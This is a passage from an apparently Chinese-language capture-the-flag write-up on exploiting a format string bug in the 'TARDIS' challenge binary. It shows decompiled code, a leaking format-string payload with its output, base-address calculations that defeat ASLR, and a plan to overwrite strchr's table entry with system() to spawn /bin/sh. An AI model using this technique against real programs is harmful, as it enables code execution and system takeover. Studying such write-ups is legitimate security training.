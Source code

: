 ```
    printf("%f, %f\n", v0, v4);
    if ( 51.492137 != v0 || -0.192878 != v4 )
      break;
    printf("Coordinate ");
    printf(&s);
    printf(" is occupied by another TARDIS.  Materializing there ");
    puts("would rip a hole in time and space. Choose again.");
    fflush(stdout);
  }
  printf("You safely travel to coordinates %s\n", &s);
  result = fflush(stdout);
  if ( *MK_FP(__GS__, 20) != v6 )
    sub_2EF0(v2, *MK_FP(__GS__, 20) ^ v6);
  return result;
}

```

其中sub_F7E()函数读取用户的输入，放在0x3FF长的一段内存中，从汇编码看这是一个栈上的内存，这是一个关键，如果放在堆中就很难完成攻击。

用户输入的数据在函数内经过一番处理后，printf(&s)又把用户的输入原样输出了。因此我们可以构造下面的字符串，来获取libc和程序本身的加载地址。

```
"51.492137, -0.192878 :%282$p:%275$p:\n"

```

相应得到的返回结果：

```
Coordinate 51.492137, -0.192878 :0x917744:0x2a9491: is occupied by another TARDIS. 
Materializing there would rip a hole in time and space. Choose again.

```

其中0x917744是libc代码段的一个固定地址，0x2a9491是程序自己代码段的一个固定地址，由于是固定的地址，因此可通过偏移修正得到加载基址：

```
libc_base = 0x917744 - 0xc744 = 0x90b000
mod_base  = 0x2a9491 - 0x1491 = 0x2a8000

```

接着进行下一步的攻击，终极目标是执行system("/bin/sh")。 这里选择替换strchr()的IAT，当然atof()也是一个不错的选择。从IDA可以知道strchr()的IAT偏移为0x505c， system()在libc中的实际偏移地址为0x3b210。结合上面得到的mod_base和libc_base可以算出攻击时system()的地址和strchr()的IAT的真实地址，而不受ASLR的限制。

```
system_funaddr = 0x90b000 + 0x3b210= 0x946210
strchr_iataddr = 0x2a8000 + 0x505c = 0x2ad05c

```

攻击目标进一步明确为： 替换mod_base+0x505c处的值为libc_base+0x3b210； 发送"/bin/sh"，触发system("/bin/sh")。

用libformatstr可方便的生成exp，参见：https://github.com/hellman/libformatstr
